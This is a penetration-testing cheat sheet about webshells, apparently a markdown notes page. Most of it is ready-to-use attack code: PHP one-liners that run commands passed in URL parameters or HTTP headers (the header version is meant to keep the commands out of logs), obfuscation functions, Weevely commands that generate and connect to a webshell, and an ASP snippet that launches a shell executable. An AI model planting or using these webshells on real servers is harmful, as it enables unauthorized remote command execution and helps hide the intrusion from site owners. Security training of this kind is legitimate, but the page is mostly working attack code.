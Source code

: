 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

## PHP

This code can be injected into pages that use php.
```php

# Execute one command
<?php system("whoami); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>
```

### Obfuscation

The following functions can be used to obfuscate the code.

eval()
assert()
base64()
gzdeflate()
str_rot13()


### Weevely - Incredible tool!

Using weevely we can create php webshells easily.

```
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```


## References

http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/



http://www.binarytides.com/web-shells-tutorial/